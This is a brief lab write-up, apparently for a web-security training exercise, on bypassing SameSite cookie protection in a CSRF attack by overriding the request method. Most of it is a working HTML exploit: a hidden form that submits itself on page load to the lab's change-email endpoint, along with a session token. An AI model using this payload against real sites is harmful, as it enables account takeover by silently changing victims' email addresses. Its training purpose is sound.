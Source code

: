 ## CSRF Lab 7: SameSite Bypass Method Overwrite

### Notes
Session: FJnPwoOJUkiHVDmywhY5JHDkGZvIu3tB

GET requests get denied so we have to make the inital request a POST.
    We can escape this by using the "_method" value in the framework to change it to POST.

### Exploit
```html
<html>
    <body>
        <form method="GET" action="https://0a97004e035e811a85a55f0900220015.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="pwned@ludicro.net">
            <input type="hidden" name="_method" value="POST">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>
```